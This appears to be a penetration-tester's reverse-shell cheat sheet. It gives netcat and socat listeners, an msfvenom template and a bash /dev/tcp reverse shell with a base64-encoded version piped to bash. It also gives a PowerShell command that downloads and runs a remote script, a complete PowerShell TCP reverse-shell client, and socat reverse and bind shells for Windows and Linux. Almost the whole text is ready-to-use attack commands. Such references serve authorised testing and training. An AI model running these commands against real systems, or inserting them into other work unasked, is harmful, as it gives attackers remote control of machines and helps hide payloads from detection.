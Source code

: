 ## Invoke listener for a reverse shell
```bash
# Netcat
rlwrap nc -nlvp 4444

# Socat
socat TCP-L:4444 -
```
## Generate shell using msfvenom
```bash
msfvenom -p PAYLOAD -f FORMAT -a ARCHITECTURE LHOST=127.0.0.1 LPORT=4444
```
## Base64 technique
```bash
# Encode shell using Base64
echo -n "/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1" | base64

# Execute shell
echo -n L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjEwLjEwLzkwMDEgMD4mMQ== | base64 -d | bash
```
## Upgrade / Stabilize Shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
export TERM=xterm
# then background shell by doing Ctrl + Z
stty raw -echo; fg
```
## Windows Reverse Shell
```cmd
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/revshell.ps1')
```
```powershell
$socket = new-object System.Net.Sockets.TcpClient("10.10.10.0",4444);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
	$writer.Write("[spidersec]> ");
	$writer.Flush();
	$read = $null;
	while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
	if(!$out.equals("exit")){
		$out = $out.split()
	        $res = [string](&$out[0] $out[1..$out.length]);
		if($res -ne $null){ $writer.WriteLine($res)}
	}
}While (!$out.equals("exit"))
$writer.close();$socket.close();
```
## Using socat
```bash
# Windows Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

# Windows Bind (on target)
socat TCP-L:<PORT> EXEC:powershell.exe,pipes

# Linux Reverse
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

# Linux Bind (on target)
socat TCP-L:<PORT> EXEC:"bash -li"

# Connect to waiting socat bind listener
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
## Upgrade Normal Shell to Meterpreter (Metasploit)
[https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)
## Resources
- [https://www.revshells.com/](https://www.revshells.com/)